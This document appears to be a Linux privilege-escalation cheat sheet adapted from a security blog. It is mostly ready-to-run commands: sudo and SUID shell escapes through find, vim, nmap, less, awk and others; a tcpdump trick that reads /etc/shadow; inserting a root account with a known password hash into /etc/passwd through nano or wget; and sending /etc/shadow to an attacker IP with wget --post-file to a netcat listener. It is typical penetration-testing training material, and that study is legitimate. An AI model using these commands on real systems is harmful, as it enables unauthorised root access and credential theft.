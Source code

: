 # Linux Privilege Escalation

---- Credits to Touhid M.Shaikh @ https://touhidshaikh.com/blog/?p=790 ----
---- Modified to add my own notes and formatting in ----


Sudoers File

    /etc/sudoers

Sudoer File Syntax.

    root ALL=(ALL) ALL

Explain 1: The root user can execute from ALL terminals, acting as ALL (any) users, and run ALL (any) command.

The first part is the user, the second is the terminal from where the user can use the sudocommand, the third part is which users he may act as, and the last one is which commands he may run when using.sudo

    user1 ALL= /sbin/poweroff
  
Explain 2: The above command, makes the user user1 can from any terminal, run the command power off using user1’s user password.

    user1 ALL = (root) NOPASSWD: /usr/bin/find
  
Explain 3:  The above command, make the user touhid can from any terminal, run the command find as root user without password.



Find out what SUDO permissions you have. The user may run these binary files without as root without password

    sudo -l

Also possible to check all files with SUID bits set with

        find / -perm -u=s -type f 2>/dev/null
        or
        find / -perm -4000 -type f 2>/dev/null


**Listing**

Here is a brief list of the exploitable binaries. Exact commands are in next section

    awk
    cp / mv
    find
    less
    man
    more
    nano
    nmap
    wget
    vi
    vim

Secondary List, not tested

sudo mount -o bind /bin/bash /bin/mount
sudo mount


$ echo $’id\ncat /etc/shadow’ > /tmp/.test
$ chmod +x /tmp/.test
$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

sudo strace -o/dev/null /bin/bash



---- Individual Commands ----

Using CP or MV

        copy and overwrite passwd file

Using Find Command

    sudo find /etc/passwd -exec /bin/sh \;
    or

    sudo find /bin -name nano -exec /bin/sh \;
    
Using Vi Command

    sudo vi
    :shell

    :set shell=/bin/bash:shell    
    :!bash

Using Vim Command

    sudo vim -c '!sh'
    
Using Nmap Command
Old way.

    sudo nmap --interactive
    nmap> !sh
    sh-4.1#
    Note : nmap –interactive option not available in latest nmap.

Latest Way without –interactive

    echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse


Using Man Command

    sudo man man

after that press !sh and hit enter


Using Less/More Command (extra stuff below)

    sudo less /etc/hosts
    sudo more /etc/hosts
    after that press !sh and hit enter

From Less you can also go into vi into a shell

       sudo less /etc/shadow
       v
       :shell

You need to run more on a file that is bigger than your screen.

        sudo more /home/pelle/myfile
        !/bin/bash

Using awk Command

    sudo awk 'BEGIN {system("/bin/sh")}'
 
Using nano Command
nano is text editor using this editor u can modify passwd file and add a user in passwd file as root privilege after that u need to switch user. Add this line in /etc/passwd to order to add the user as root privilege.

    sudo nano  /etc/passwd
    add this line:
    user1:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash


now switch user password with password : test

    su user1
    


Using wget Command
this very cool way which requires a Web Server to download a file. This way i never saw on anywhere. lets explain this.

On Attaker Side.

First Copy Target’s /etc/passwd file to attacker machine.
modify file and add a user in passwd file which is saved in the previous step to the attacker machine.
append this line only => 

    user1:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash

host that passwd file to using any web server.
On Victim Side.

    sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd
    
now switch user password  : test

    su user1


Note: if u want to dump file from a server like a root’s ssh key, Shadow file etc.

    sudo wget --post-file=/etc/shadow 192.168.56.1:8080
    Setup Listener on attacker : nc –lvp 8080


**Other**

Checking for running services running as root

        ps aux
        
MySQL

if this is running as root you can run commands if you are able to log in:

        select sys_exec('whoami');
        select sys_eval('whoami');



Using apache Command
sadly u cant get Shell and Cant edit system files.

but using this u can view system files.

    sudo apache2 -f /etc/shadow


Output is like this :

    Syntax error on line 1 of /etc/shadow:
    Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration


Sadly no Shell. But you manage to extract root hash now Crack hash in your machine. For Shadow Cracking click here for more.




Super long list here:

https://gtfobins.github.io/

## Kernel Exploits

To be avoided if possible, as it may cause crashes

Check Version

        uname -a
        cat /proc/version
        cat /etc/issue

Search for exploits

        site:exploit-db.com kernel version

        python linprivchecker.py extended
